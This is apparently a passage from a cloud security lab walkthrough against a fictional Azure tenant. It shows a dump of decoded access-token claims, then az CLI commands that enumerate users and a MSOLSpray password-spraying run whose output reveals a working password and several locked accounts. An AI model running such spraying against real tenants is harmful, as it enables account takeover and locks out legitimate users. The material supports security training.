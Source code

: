 ```powershell

aio                 : ATQAy/8XAAAA5UsG2m7KhLMuzgUzNi69LytMKbn/u1aQhLbzTGStfx+YQHPd12wEKqFYiBrf/Y8M 
amr                 : {pwd}                                                   
appid               : 1b730954-1685-4b74-9bfd-dac224a7b894                    
appidacr            : 0                                                     
family_name         : Tanaka                                               
given_name          : Yuki                                                 
idtyp               : user                                                  
ipaddr              : 108.69.89.47                                         
name                : Yuki Tanaka                                           
oid                 : 7d0cfca3-b00e-424c-bf13-d7c2f0869901                  
puid                : 100320031CC81EE5                                      
rh                  : 0.AU4A78yQJX1oO0mujUQcurY6cgIAAAAAAAAAwAAAAAAAAAAOAcM.   
scp                 : user_impersonation                                   
sub                 : REm7hSJyCpgwqaQ_bZ9rrBVpl_zYftoV_85b67gv6bg
tenant_region_scope : EU               
tid                 : 2590ccef-687d-493b-ae8d-441cbab63a72
unique_name         : yuki.tanaka@megabigtech.com                             
upn                 : yuki.tanaka@megabigtech.com                                                                                                            
uti                 : 3xFgCS1OCUKqP2uJ17AfAA                                  
ver                 : 1.0                                                     
xms_idrel           : 1 20 
```


## 6.1 Get users 
Now that we have a list of users and the password for dbuser, let's give it a shot using Password spray tools. The goal here is to find a user with the same password.


[AZ CLI](<../../../0.1. Learn Cloud/0.1.2 Azure/0.1.2.1. Azure General/AZ CLI.md>)
```powershell
az ad user list| jq .[].userPrincipalName > usernames.txt

cat ./usernames.txt| cut -d '\"' -f 2 > users.txt

PS>Import-Module ./MSOLSpray
PS>Invoke-MSOLSpray -UserList ./users.txt -Password '*****'
[*] There are 74 total users to spray.
[*] Now spraying Microsoft Online.
[*] Current date and time: 09/19/2024 14:03:33
[*] SUCCESS! dbuser@megabigtech.com : V%#J3c5jceryjcE                                                                   
[*] WARNING! The account msmith@megabigtech.com appears to be locked.
[*] WARNING! The account Oliver.Smith@megabigtech.com appears to be locked.
[*] WARNING! The account rachit@megabigtech.com appears to be locked.
[*] WARNING! The account Rohit.Kumar@megabigtech.com appears to be locked.
[*] WARNING! The account sunita_adm@megabigtech.com appears to be locked.
74 of 74 users tested

```
